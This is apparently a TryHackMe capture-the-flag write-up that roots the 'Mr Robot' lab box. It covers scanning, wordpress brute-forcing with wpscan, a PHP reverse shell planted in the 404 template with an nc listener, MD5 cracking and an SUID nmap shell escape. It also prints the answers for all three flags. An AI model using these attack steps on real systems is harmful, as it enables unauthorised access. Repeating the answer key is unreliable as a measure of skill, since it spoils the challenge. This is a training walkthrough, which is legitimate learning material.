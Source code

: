 # [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

> Based on the Mr. Robot show, can you root this box?

## Scanning

scan the machine

```
nmap -sS -sV -sC -T4 10.10.176.209
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b52092dc-9877-4110-bc1a-a5f5a3441f28)

## HTTP

view the webpage, it appears a mr robot terminal and a list of command for you try

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/95275df3-8f99-4ab8-ac88-f9bc19d04798)

view source

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/662ff39d-e3c9-4d26-9970-d7ba8dd7ea04)

i think about mr robot, let's check robots.txt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b823aac9-351c-493d-ae4f-12db8af61918)

we have a dictionary file `fsocity.dic`, maybe a list of password for later, and our flag 1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5f19aee5-0f06-47a8-bd68-3d0cf07f78d6)

| Flag | key-1-of-3.txt |
| --- | --- |
| Answer | 073403c8a58a1f80d943455fb30724b9 |

## Enumeration

enum the directory of webpage

```
gobuster dir -u http://10.10.176.209 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e4794fb1-53f4-4095-a078-1d77b720fb6b)

it's seem a wordpress site and a wp-login panel

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c9296a24-4734-4123-ab30-46cea686cacb)

after research, i know that mr robot's name is `elliot`, so i think it's our username

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4b640f50-9533-4564-bd49-d68c5c2cb813)

before do a bruteforce, the givin wordlist contain 858,161 lines, so lets sort it out and remove duplicates

```
sort fsocity.dic | uniq > sorted_fsociety.dic
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d71f3244-8630-49bb-bfb1-74e5867dd753)

## Exploitation

now you can bruteforce the credentials by using `hydra`

but i will use `wpscan` to attack this wordpress site

```
wpscan --url http://10.10.176.209/wp-login -U elliot -P sorted_fsociety.dic -t 30
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/77561662-ad9c-4b46-95dd-eb6422ae4d6c)

we now successfully gained access to the WordPress Panel

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/74954412-f0e2-498b-a144-4d70af2f7ddb)

now upload a php reverse shell to gain access

```
cp /usr/share/webshells/php/php-reverse-shell.php .
vi php-reverse-shell.php
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9a3bc467-ac19-40c9-8ce2-a2ff74fe56cb)

i update the 404.php with our reverse shell

```
nc -vlnp 1234
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e6e4e26d-8494-46e9-894c-97ea21072686)

upgrade the shell

```

```

at /home/robot, i see the flag 2 and a md5 password of robot

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/421ead71-09cc-4b03-9954-90eb2115be72)

crack the password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4f3da1f0-65b6-451e-8e97-bda3d142103a)

here you go, flag 2

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8bebaa75-ba68-4521-9bee-f6d7e0f29119)

| Flag | key-2-of-3.txt |
| --- | --- |
| Answer | 822c73956184f694993bede3eb39f959 |

## Privilege Escalation

finding suid bit

```
find / -perm /4000 2>/dev/null
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/cab3ab4e-dda1-4dbd-a287-d631255ac579)

leverage the nmap to get root

```
nmap --interactive
!sh
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee12dfcf-ed19-4e42-8890-a52561c7f3e6)

| Flag | key-3-of-3.txt |
| --- | --- |
| Answer | 04787ddef27c3dee1ee161b21670b4e4 |
